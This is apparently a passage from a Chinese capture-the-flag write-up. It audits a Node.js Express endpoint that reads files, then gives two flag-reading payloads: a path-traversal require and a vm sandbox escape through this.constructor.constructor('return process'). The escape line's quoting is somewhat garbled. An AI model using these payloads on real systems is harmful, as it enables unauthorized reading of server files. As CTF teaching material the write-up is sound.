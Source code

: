 ```bash

  let data = fs.readFileSync(p).toString();

  res.send({
    "validator":valid,
    "data": data,
    "msg": "data is corrupted"
  })
});

const PORT = 3000;
app.listen(PORT,()=>{
  console.log(`Server is running on port ${PORT}`);
})
```

简单审计一下代码可以发现有 2 种打法

-   有 fs.readFileSync(p).toString(),直接读 flag

```bash
require('../../../../flag')
```

-   利用 vm 沙箱逃逸读文件

```bash
require('vm').vm.runInNewContext(['this.constructor.constructor('return process')().mainModule.require('fs').readFileSync('./flag').toString()'])
```

# 后记

vm2 有点看不懂了，好复杂，学不太懂，以后有机会再看

# 参考

[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

[Proxy 和 Reflect - 掘金 (juejin.cn)](https://juejin.cn/post/6844904090116292616)
